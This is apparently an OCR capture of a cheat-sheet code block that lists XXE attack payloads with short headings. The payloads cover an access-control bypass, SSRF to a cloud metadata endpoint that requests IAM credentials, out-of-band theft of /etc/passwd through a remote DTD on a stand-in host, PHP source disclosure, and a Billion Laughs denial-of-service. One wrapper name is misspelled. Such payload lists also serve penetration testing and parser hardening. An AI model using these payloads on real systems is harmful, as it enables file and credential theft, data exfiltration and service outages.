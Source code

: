             # XXE Access control bypass
            <!DOCTYPE foo [
            <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
            <foo><result>&ac;</result></foo>
            
            # XXE to SSRF:
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
            
            # XXE OOB
            <?xml version="1.0"?>
            <!DOCTYPE data [ 
             <!ENTITY % file SYSTEM "file:///etc/passwd">
             <!ENTITY % dtd SYSTEM "http://your.host/remote.dtd"> 
            %dtd;]>
            <data>&send;</data>
            
            # PHP Wrapper inside XXE
            <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
            <contacts>
              <contact>
                <name>Jean &xxe; Dupont</name>
                <phone>00 11 22 33 44</phone>
                <adress>42 rue du CTF</adress>
                <zipcode>75000</zipcode>
                <city>Paris</city>
              </contact>
            </contacts>
            
            <?xml version="1.0" encoding="ISO-8859-1"?>
            <!DOCTYPE foo [
            <!ELEMENT foo ANY >
            <!ENTITY % xxe SYSTEM "php://filter/convert.bae64-encode/resource=http://10.0.0.3" >
            ]>
            <foo>&xxe;</foo>
            
            # Deny Of Service - Billion Laugh Attack
            
            <!DOCTYPE data [
            <!ENTITY a0 "dos" >
            <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
            <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
            <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
            <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
            ]>
            <data>&a4;</data>
            